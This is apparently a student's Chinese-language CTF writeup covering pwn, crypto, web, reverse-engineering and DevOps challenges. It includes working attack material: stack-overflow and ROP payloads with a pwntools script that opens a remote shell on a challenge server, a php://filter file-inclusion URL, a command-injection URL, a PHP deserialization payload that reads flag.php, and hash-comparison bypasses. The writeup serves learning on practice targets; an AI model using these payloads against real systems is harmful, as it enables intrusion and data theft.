

# Writeup

## Pwn

### 一、EasyPwn题解

**第一步**：打开IDA分析题目下载的程序发现有一个可以被pwn的关键函数 **gets()。**检查汇编代码发现在调用**gets()**前有一条**lea     rax, [rbp-70h]**指令。注意此时不要把偏移量当成70，进制转换后得出112，还要在加上64位程序一开始 **push rbp**占用的8个字符得出溢出所需字符为120*“A”。

**第二步**：检查IDA的函数发现**foo()**函数调用了system可以getshell，于是想办法溢出后将返回地址覆盖为**foo()**的地址**（0x00000000004006B6）。**

**第三步**：构造payload为**payload="A"\*120+p64(0x00000000004006B6)** pwn一下就可以拿到flag了。

### 二、Rop题解

**第一步**：rop相比于之前复杂度较高，但是还是要先分析题目程序。用之前的方法分析得出溢出所需字符为**A\*“12”**，虽然这题没有现成的**system(“/bin/sh”)**，但是有**system()**函数。进一步检查IDA中的字符串列表发现了**.data:0000000000601070    00000008 C   /bin/sh**说明应该想办法把这个字符串作为参数去调用**system()**来getshell。

**第二步**：查阅资料发现，64位程序调用函数首先需要把参数存入寄存器当中，主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。也就是说需要用gadgets把字符和寄存器联系起来（抱歉我只能理解到这个层面）。**

**第三步：使用ROPgadget --binary rop1查找合适的gadgets得到一个（0x00000000004008dd）**

**第四步：开始构造payload**

 **payload="A"\*12+p64(0x00000000004008e3)+p64(0x0000000000601070)+p64(0x0000000000400805)**

​      **解释：payload = "A"\*12 + p64(pop_ret_addr)+ p64(binsh_addr)+ p64(system_addr)**

​      **用这个pyaload pwn之后即可得到flag**

### 三、Rop2题解

这题难点在于没有了/bin/sh，但是有输入函数，需要把/bin/sh输入到合适的位置后放进寄存器中再调用system函数。

By the way，这个方法可以快速找到call函数地址免得麻烦

elf=ELF('./rop2')

sys_addr=p64(elf.symbols["system"])

get_addr=p64(elf.symbols["gets"])

既然要输入到合适位置那么就要寻找可读写的段，于是在IDA的段视图中找到了**.bss      00000000006010F0  0000000000601110  R   W**这么一个可读写的bss段。同样的，要作为输入函数的参数也需要一个gadgets，同样的方法找到gadgets为**0x00000000004008e3**这个gadgets需要用两次，一次输入，一次system，最后得出payload

```python
r=remote("129.211.58.26",10002)
elf=ELF('./rop2')
sys_addr=p64(elf.symbols["system"])
get_addr=p64(elf.symbols["gets"])
rdi_addr=p64(0x00000000004008e3)
main_addr=p64(0x000000000040080D)
binsh_addr=p64(0x0000000000601080)

#sys_addr=p64(0x0000000000400805)

payload1='A'*12
payload1+=rdi_addr
payload1+=binsh_addr
payload1+=get_addr
payload1+=rdi_addr
payload1+=binsh_addr
payload1+=sys_addr

r.recvline()
r.sendline(payload1)
r.sendline("/bin/sh") 
r.interactive()
#pwn一下就可以拿到flag
```


------

## Crypto

### 一、Frequency analysis?

题目给出的文件是一个装满字符的文本文档，结合题目名字，肯定是分析各个字符出现次数后排序并输出对应的字符得到flag，果断上万能的Python！

脚本如下：


运行一下Flag就出来了！

### 二、Columnar Transposition

​		这次不用python了，这次用万能的Excel，加解密规则是百度查到的，这里直接放出我的解密格式：


​       按顺序取出再base64加密提交即可

### 三、Easy_RSA

​       这题叫做Easy_RSA，但是一点不Easy，关键不是算出各个数据，而是生成私钥，由于我用了比较麻烦的方法生成所以这里就不太详细叙说了：

​      首先解析一下公钥：


​		密钥强度不是很大可以强行分解大素数，可以到一个功能网站上分解，也可以用RSAtools跑两分钟还可以用python的库……

 


​		这是分解之后的结果，然后应该求d的值，这时要用到python或者RSAtools：


​		这个什么gmpy2库贼难装，推荐还是使用RSAtools把….

​		然后随便把一个私钥转成XML格式看看需要什么东西构成，再算出来，编码后填进去，再转成pem格式


​		发现里面是一堆base64加密之后的玩意儿，直接解密还会乱码，于是我尝试解密成16进制格式，再转成10进制，发现就是刚刚求出的数据，同样的方法逆向，封装，私钥就做好了。

​		用openssl的解密命令解密就会出现flag文件，打开即可查看flag。

### 四、Hill Cipher

​		这题有点坑….其实说算法难也并不算很难，关键就是python有点精度问题然后导致最后求出的flag有一两个字母不对，最后只能手动int，那我就直接放出python的不太精确的脚本


​       反正大概就这样，后来这个库又莫名其妙用不了烦死了，我啥都没干。

### 五、Easy进阶

​       这题一开始写的时候一直没有思路，直到看到了这么一张图……..

 

突然 茅 塞 顿 开————模不互素是啥玩意？

于是到CTFwiki一看…….好家伙，连脚本都给出来了…

https://wiki.x10sec.org/crypto/asymmetric/rsa/rsa_module_attack/

经过脚本检测的确是模不互素，于是开始着手写脚本，由于flag分散在两个文件，所以要写两份脚本，两份大体上一样，稍微有点不同（虽然我也不理解….）

脚本1：


脚本2：


分别运行脚本之后出现一大串乱码加上flag的片段，拼起来就是了…….

CTFwiki万岁~

 

### 六、品质保证

​       这题真的变态，不看wiki怎么可能想到hash长度拓展攻击这种玩意儿…..

基本定义如下，源自[维基百科](https://zh.wikipedia.org/wiki/长度扩展攻击)。

​        哈希长度扩展攻击 (Hash Length Extension Attacks) 是指针对某些允许包含额外信息的加密散列函数的攻击手段。该攻击适用于在**消息与密钥的长度已知**的情形下，所有采取了 H(key ∥ message) 此类构造的散列函数。MD5 和 SHA-1 等基于 Merkle–Damgård 构造的算法均对此类攻击显示出脆弱性。

这类哈希函数有以下特点

·         消息填充方式都比较类似，首先在消息后面添加一个 1，然后填充若干个 0，直至总长度与 448 同余，最后在其后附上 64 位的消息长度（填充前）。

·         每一块得到的链接变量都会被作为下一次执行 hash 函数的初始向量 IV。在最后一块的时候，才会将其对应的链接变量转换为 hash 值。

一般攻击时应满足如下条件：

·         我们已知 key 的长度，如果不知道的话，需要爆破出来

·         我们可以控制 message 的消息。

·         我们已经知道了包含 key 的一个消息的 hash 值。

​        这样我们就可以得到一对 (messge,x) 满足 x=H(key ∥ message)虽然我们并不清楚 key 的内容。

​		然后查看这题的源代码，发现最关键的部分在于验证部分，你需要修改cookies的身份信息，但是又要能通过校验。这时候就要用到一个工具HashPump，这个工具可以生成MSG+padding+add以及对应的哈希加密内容，相当于不知道加密用的KEY也可以用该KEY加密自己的内容。以此替换cookies中验证部分后，那么用于验证的密文就被我们伪造成了专门验证伪造信息的密文。

​		那么关键来了，如何修改add部分让我们的权限变成admin，巧了，题目中有个很明显的**漏洞**：


​		题目逻辑是把cookies的user_data用“.”分割成一个数组，然后在该数组中再用#分割成两个部分读取，由于用的for循环，所以只要在最后add部分写`username#1.role#admin`，那么它取到的身份一定是admin。

​		开始写脚本，由于不要长度不确定，需要写脚本爆破放到cookies里面提交，下面是我的python脚本（让我再写一次我都不会了，还好存了payload…）

 

运行一下flag就会出来的！

------

## WEB

### 一、Protocol

首先观察题目的URL：**http://39.108.11.206:10003/?file=** 很明显暗示本题是文件包含，于是可以想办法readfile，由于readfile的对象是php文件为了不让其执行，需要base64进行加密后取出。

得到这样一个url：**http://39.108.11.206:10003/?file=php://filter/read=convert.base64-encode/resource=index.php**

访问和可以打印一串base64，解码之后就是php的源代码了。

### 二、Restrictions

众所周知，网站目录下的robots.txt可以屏蔽搜索引擎的抓取，于是访问根目录的robots.txt，再看看网页源代码就会发现flag。

### 三、是时候展示十八年单身的手速了

访问网页时老是提示手速不够，其实和速度没关系，postman检查header就会发现connection:close，要把close改成keep-alive就可以保持链接活动，看到flag。

### 四、英国人&朝鲜人

​      题目提示“新试”“负载均衡”，于是可知，该服务器可以根据访问者ip确定分配的服务器，进一步dig发现一个做NS的服务器，可以推断应该是DNS负载均衡，于是尝试将系统dns更换为英国区域的DNS直接访问即可出现“英国人”的flag。

​      朝鲜人与英国人是同一个服务器，由于朝鲜没有公共DNS服务器，所以之前的方法作废，同时如果伪造UDP来源地址请求DNS会导致无法收包。这时候题目中的“新式”让人联想到EDNS技术，这种新式的DNS可以在DNS包中传递client ip从而避免因为DNS地址与用户地址区域不同，导致的负载均衡工作失误。通过更新linux的dig命令调用EDNS：**dig @moectf-ns.gslb.top region.challenge.moectf.cn +client=175.45.176.16** 组后传递的client ip是朝鲜网段的ip，这样就可以得到朝鲜人服务器地址，改host绑定域名直接访问可得朝鲜人flag。

### 五、Amazing_eval

​       这题关键在于**eval()**函数，这个函数可以将参数当成php命令执行于是post内容为**echo $flag;**即可返回flag内容。

### 六、今天你备份了嘛

​       这题关键在于vim编辑文件未保存退出，于是推断也许会存在缓存文件，查询百度得知缓存文件的格式为 原文件名.swp，于是在index.php后缀加上.swp即可通过缓存文件看到flag。

### 七、php弱类型

​       这题要求GET的a值不为数字又要等于0，典型的php弱类型：

#### -PHP中的两种比较符号

```php
1 <?php
2 var_dump('admin'==0);               //true
3 var_dump('1admin'==1);             //true
4 var_dump('admin1'==1)；           //false
5 var_dump('adminm1'==0)；         //true
6 var_dump(0e154 == 0e524);       //true
7 var_dump(0 === 'abdefg');      //true 
8 ?>
```

​		当我们使用' `==` '进行比较时，会将字符串类型转换成数字型再进行比较，只比较转换后的数值的大小

  a.当字符串中不存在数字的时候会把字符串会转换成数值0，参考第二行代码。

  b.当字符串的开始部分有合法数值时，会把该字符串转换成该合法数值，参考第三行代码。

  c.当字符串存在合法数值时但合法数值不在开始部分，那么字符串仍然会转换成数值0，参考第四和五行代码。

  d.当字符串中包含'e'或'E'时，系统会将其识别为科学记数法，0^n均为0，参考第六行代码。

​		当我们使用' `===` '进行比较时，会比较较二者的类型和数值。简而言之, '`===`' 是一个全等符合，如果$a=== $b ,我们可以判断a和b的数值和类型完全相等。

​		所以这题很明显，就如同上面第一行代码，直接输入一个字符，不包含合法数字，这样php会将其转换成0，于是便可以通过比较。当然传0+字母也是可以的。

​		第二种思路是传数组，因为在比较时数组也会变成o；

### 八、PHP_md5()

​      这题的逻辑是要输入两个不同的值但是他们的md5值相同，于是一般情况下立马想到散列碰撞，但是由于php特殊的原因，并不需要散列碰撞。

原理：

​		PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。

​		所以这题的思路很明显，就是上传两个不同的，但是哈希值以0e开头的参数把等式等效于0==0，从而绕过判断，百度上查到以下：

`QNKCDZO`

`240610708`

`s878926199a`

`s155964671a`

`s214587387a`

`s214587387a`

​       选择两个作为参数传上去即可。

### 九、stronger_php

​       与上一题不同，这次是sha1与md5比较，不能用上述方法绕过

补充点基本知识，php的松散比较与严格比较：补充点基本知识：[**https://blog.csdn.net/asty9000/article/details/80656922**](https://blog.csdn.net/asty9000/article/details/80656922) 松散比较时会把不同类型数据转换成同类型再比较，严格比较是不同类型数据直接认为不等。

​      这时我们发现php中md5和sha1都不能处理数组，于是我们尝试传入不同的数组（注意参数名因该写成a[],b[]而不是在参数内容的地方写a[],b[]），

比如这样**………./?a[]=123&b[]=456**这样在比较时就会变成a、b两个数组转化为0后比较，可得falg。

### 十、神奇的正则表达式

​      这题没什么说的，就是百度查表了解每个正则符号的作用传上去就行了。

### **十一、**头&终极HTTP请求头

​       两题差不多，就是按照返回内容的要求修改http头，第一题最后会类型报错，应该要修改接受类型，第二题关键在于修改referer表明来源以及修改cookies验证身份。

 

### 十二、Dynamic

​       这题在限制了使用一堆函数的同时又要你找出flag文件并显示，检查我们还能做的事：print函数还能用，还可以通过反引号执行system的功能，最关键的是我们可以传多个参数，绕过这个对单独参数判断的逻辑，于是可以构造payload：**`http://moectf.cn:10012/?cmd=$str=$_GET[id];print $str;&id=ls`** 网页会返回目录文件，发现其中除了index.php还有一个文件，修改链接访问它即可得到falg。

### 十三、Object

​       这题难度最大，构造payload需要花非常多心思。首先看题目逻辑，要求输入两个参数 fl 和 ge ，并且对第一个参数进行正则匹配，匹配规则为 大小写字母以及数字+左括号，然后对第二个参数进行反序列化。我们知道反序列化是一个魔法函数，也就是在对象被销毁时会直接调用本题的__destruct()函数，在调用这个函数的同时要对反序列化后的ag进行正则匹配最后放进eval中构造成一个能显示flag的payload。

​      在PHP中，序列化用于存储或传递 PHP 的值的过程中，同时不丢失其类型和结构。

​      *我们构造payload需要在本地先进行序列化

​      序列化后为了让对象销毁，我们要把序列化后的对象数1改成2，这样才能进入__destruct()。最后这个payload需要过正则，匹配前后双引号，同时能把flag.php的源码用base64打印出来。

Payload：`O:4:"flag":2:{s:3:"cmd";s:99:"123";echo $a;echo readfile("php://filter/read=convert.base64-encode/resource=flag.php");a();$b="123";}`

​		传上去后再解码一下base64就可以有flag了。

------

##  Reverse

### 一、MoeRe

​		Re一开始这题居然就有点难度，首先打开IDA查看核心代码



​		我们可以发现第一个for循环将输入的每个字符与题目给出的table一一对应进行按位异或（其实是ASCII之间的异或运算），超出部分取模。结合题目给出的一连串整数，应该想到，这连串整数就是运算结果。

​		由数学原理分析可以知道，把结果和字母表再进行一次按位异或就可以出输入的flag。

​		着手用python写脚本…….

​		用python写脚本主要要用到的几个函数是ord():把一个字符转换成ascii；chr():把ascii码转换成对应字符。


​       最后运行一下脚本就可以出flag了！

 

### 二、.pyc

​       .pyc是python脚本编译成的二进制文件，直接打开是二进制数据，需要专门的工具进行逆向，比如**uncompyle6**，执行**uncompyle6 test.pyc > test1.py**就可以把.pyc逆向成.py

​      观察逆向后的代码：


​      明显是一个多重加密并且知道加密后的值。

​      首先是b32加密后再用b2a_hex加密

​      然后反着来，先把16进制变成字符串，再用base32解密即可得到flag


### 三、EasyShell

​       从题目就可以知道这个程序经过upx加壳，不能直接用IDA打开，先下个upx脱壳软件进行脱壳。


 

​      脱壳完放进IDA，Flag明文就如同第一题出现了…..

### 四、Easy Go

​       IDA打开，没什么好说的，一个判断==1107就抛出flag了

### 五、EasyJava

​       逆向java文件后发现是对输入的数字做一系列数学判断，符合条件的数字才能抛出flag，看了下范围不是很大，果断决定暴力出奇迹！For循环跑十几秒就出了……..

​      直接放代码：


### 六、Mine Sweep

​		这是一道恶趣味题，然鹅出题人不够恶趣味，如果扫完雷给个假Flag才是真的666666666……..

​		首先打开IDA分析伪代码

​		明显看出这题的关键逻辑是判断剩余未开启的雷区的数量达到胜利目标，而且是一个简单的==65，这就给了我们天大的机会，把这个等于判断对应的汇编代码打开


​       一大个jz（jump if zero）判断，只要我们改成jnz，逻辑就变成了，只要剩余雷区数量不等于65，直接获胜。于是在winhex找到jz对应的HEX编码

​		为74,将其修改为75（也就是jnz）

​		改完之后一运行程序，随便扫一个雷flag就出来了。

##  

## 七、EasyRe

​       这题有两条路，于是果断在decode的道路上越走越远~

​      还是先看IDA：


​		很明显是把flag用按位异或加密了，于是在16进制数据那里找到加密后的数据，用python仿造题目的解密逻辑写个脚本：

​       

 

​      由于一边实验一边写题目所以脚本有点粗糙，就这个思路反正

​      而且不知道是题目问题还是如何，最后的flag在moectf中的m会出现解码错误的情况，好在不影响flag的求解~

### 八、AlgorithmTask

​       这题说难不难，说简单也要靠感觉，题目说两种常见算法，于是果断打开IDA中的字符串查看，发现有一个table和两串字符，其中一串肯定是base64，解密出来发现是半个flag，另一个怎么看怎么像md5，解密出来又是另一半flag，然后就成了……………..

 

------

## Android

gugugugugugu.......

## DevOps

### 一、SNI

​		打开题目链接发现证书报警，而题目是直接用IP访问，说明题目环境配置时没有绑定IP与域名。观察证书发现证书颁发给域名`sspirits.top`，于是修改header里的host为`sspirits.top`即可访问

### 二、SNI++

​		这题打开题目链接没有报警但是没有证书，说明服务器绑定了IP与域名，没有域名的话sni机制是不会分发证书的。利用nslookup找到了这个ip的域名后修改host文件，将域名解析到题目ip，直接访问域名，证书报警（可以忽略报警继续访问），参照第一题修改header的host即可消除报警。

> 希望我能有Frank一丢丢那么强